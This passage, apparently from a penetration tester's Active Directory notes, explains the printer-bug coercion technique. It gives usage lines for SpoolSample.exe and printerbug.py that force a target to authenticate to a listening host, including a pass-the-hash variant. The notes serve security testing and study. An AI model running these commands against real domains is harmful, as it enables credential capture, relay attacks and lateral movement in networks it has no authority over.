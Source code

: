 The `printerbug.py` Python script, of the `krbrelayx` toolkit, can be used to
call the `SpoolerService` `MSRPC` functions and trigger the authentication
callback.

```
# In order to trigger a Kerberos authentication, the listening host <LHOST_HOSTNAME> should be associated to a Service Principal Names (SPN) in the domain and a valid DNS record
# For more information, refer to the `[ActiveDirectory] Kerberos unconstrained delegation` note   

SpoolSample.exe <TARGET_IP | TARGET_HOSTNAME> <LHOST_HOSTNAME>

printerbug.py [<DOMAIN>/]<USERNAME>[:<PASSWORD>]@<TARGET_IP | TARGET_HOSTNAME> <LHOST_HOSTNAME>
printerbug.py -hashes <LMHASH:NTHASH> [<DOMAIN>/]<USERNAME>@<TARGET_IP | TARGET_HOSTNAME> <LHOST_HOSTNAME>
```
